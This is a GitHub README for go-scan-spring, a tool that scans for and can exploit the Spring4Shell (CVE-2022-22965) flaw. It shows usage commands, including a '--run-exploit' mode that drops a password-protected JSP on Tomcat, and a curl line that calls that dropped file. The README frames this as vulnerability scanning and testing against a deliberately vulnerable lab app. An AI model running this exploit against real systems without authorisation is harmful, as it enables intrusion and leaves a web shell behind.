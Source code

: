 <h1 align="center">
  <br>
    go-scan-spring
  <br>
  <br>
</h1>

<h4 align="center">Vulnerability scanner to find Spring4Shell (CVE-2022-22965) vulnerabilities</h4>
<p align="center">For more information: <a href="https://www.fracturelabs.com/posts/effective-spring4shell-scanning-exploitation/">https://www.fracturelabs.com/posts/effective-spring4shell-scanning-exploitation/</a></p>
<p align="center">
  <a href="https://twitter.com/fracturelabs"><img src="https://img.shields.io/badge/twitter-%40fracturelabs-orange.svg" alt="@fracturelabs" height="18"></a>
  <a href="https://twitter.com/brkr19"><img src="https://img.shields.io/badge/twitter-%40brkr19-orange.svg" alt="@brkr19" height="18"></a>
</p>
<br>

# Build
```bash
[~/opt] $ git clone https://github.com/fracturelabs/go-scan-spring.git
[~/opt] $ cd go-scan-spring
```

# Usage
## Help
```bash
[~/opt/go-scan-spring] $ go run main.go help scan

Run a scan against target URLs looking for vulnerable services

Usage:
  go-scan-spring scan [flags]

Flags:
  -f, --file string         Target URL filename (- for stdin)
      --follow-redirect     Follow redirects
  -h, --help                help for scan
      --http-get            Test using HTTP GET requests (must set =false to disable) (default true)
      --http-post           Test using HTTP POST requests (must set =false to disable) (default true)
      --identifier string   Unique scan identifier (used as a password and an exploit filename) (default "go-scan-spring")
  -x, --proxy string        Upstream proxy
      --run-baseline        Run a baseline test to see if endpoint is up
      --run-exploit         Run an exploit to retrieve the owner of the Tomcat process
      --run-safe            Run a safe test to see if endpoint is vulnerable
  -s, --sleep int           Time to sleep between exploit steps. This is needed to allow time for deployment. (default 10)
  -t, --threads int         Number of threads (default 5)

Global Flags:
      --debug   enable debug logging
```
## Basic safe scan
```bash
[~/opt/go-scan-spring] $ go run main.go scan --run-safe -f urls.txt
```

## Basic safe exploit
Use your own unique `identifier` parameter!

```bash
# Using HTTP GETs and POSTs
[~/opt/go-scan-spring] $ echo http://localhost:8080/spring4shell_victim/vulnerable | go run main.go scan -f - --identifier 550bafe0-0c6c-4f3e-a46b-0901c28e690b --run-exploit

# Using only HTTP GETs
[~/opt/go-scan-spring] $ echo http://localhost:8080/spring4shell_victim/vulnerable | go run main.go scan -f - --identifier 550bafe0-0c6c-4f3e-a46b-0901c28e690b --run-exploit --http-post=false

# Using only HTTP POSTs
[~/opt/go-scan-spring] $ echo http://localhost:8080/spring4shell_victim/vulnerable | go run main.go scan -f - --identifier 550bafe0-0c6c-4f3e-a46b-0901c28e690b --run-exploit --http-get=false
```

### Verification
You can verify the script works properly by testing against an intentionally vulnerable system, such as [spring4shell_victim](https://github.com/fracturelabs/spring4shell_victim)

```bash
[~] $ curl --output - 'http://localhost:8080/go-scan-spring/550bafe0-0c6c-4f3e-a46b-0901c28e690b-AD.jsp?pwd=550bafe0-0c6c-4f3e-a46b-0901c28e690b'
```


# Credits
* The entire structure and several functions were borrowed heavily from the wonderful [GoWitness](https://github.com/sensepost/gowitness) project from SensePost.
* The safe check implemented in this was inspired by [The Randori Attack Team](https://twitter.com/RandoriAttack/status/1509298490106593283) and [Zach Grace](https://twitter.com/ztgrace)
* Whoever created the first PoC - stuff is moving too fast to properly attribute this right now!
